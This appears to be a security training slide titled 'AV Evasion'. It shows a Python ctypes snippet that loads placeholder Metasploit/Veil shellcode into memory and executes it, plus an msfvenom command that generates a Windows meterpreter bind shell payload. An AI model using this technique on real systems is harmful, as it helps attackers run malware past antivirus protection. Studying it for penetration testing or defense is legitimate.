

AV Evasion
Ctypes
	Is a foreign function library for Python. It provides C compatible data types, and allows calling functions in DLLs or shared libraries.
from ctypes import *
shellcode = ("METASPLOIT/VEIL SHELLCODE");
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
msfvenom -p windows/meterpreter/bind_tcp -f C | tr -d '"' | tr -d '\n'